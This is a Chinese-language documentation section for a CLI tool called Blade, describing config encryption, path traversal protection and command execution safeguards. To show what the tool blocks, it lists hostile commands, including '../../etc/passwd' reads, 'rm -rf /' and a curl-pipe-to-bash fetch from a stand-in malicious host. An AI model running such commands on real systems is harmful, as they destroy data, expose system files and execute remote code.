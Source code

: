 ## 11. 高级安全功能

### 11.1 配置文件加密

Blade 现在支持自动加密存储敏感配置信息：

```bash
# Blade 会自动加密存储在 ~/.blade/config.json 中的敏感信息
{
  "apiKey": "enc:AES-256-GCM-ENCRYPTED-DATA",  # 自动加密
  "searchApiKey": "enc:AES-256-GCM-ENCRYPTED-DATA",  # 自动加密
  "baseUrl": "https://api.example.com"  # 明文存储（非敏感）
}
```

**加密特性**：
- 使用 AES-256-GCM 加密算法
- 自动密钥管理
- 跨平台兼容

### 11.2 路径遍历防护

Blade 内置了强大的路径遍历攻击防护机制：

```bash
# 安全的文件操作
blade file read ./project/README.md

# 会被阻止的危险操作
blade file read /etc/passwd
blade file read ../../etc/passwd
blade file write /root/malicious.sh "恶意脚本"
```

**防护特性**：
- 白名单目录验证
- 路径规范化
- 深度限制控制

### 11.3 命令执行安全

Blade 对所有系统命令执行都进行了安全加固：

```bash
# 允许的安全命令
blade git commit -m "安全的提交信息"

# 会被阻止的危险命令
blade exec "rm -rf /"
blade exec "curl -s evil-site.com/malicious.sh | bash"
```

**安全特性**：
- 命令白名单机制
- 参数安全验证
- 危险模式检测
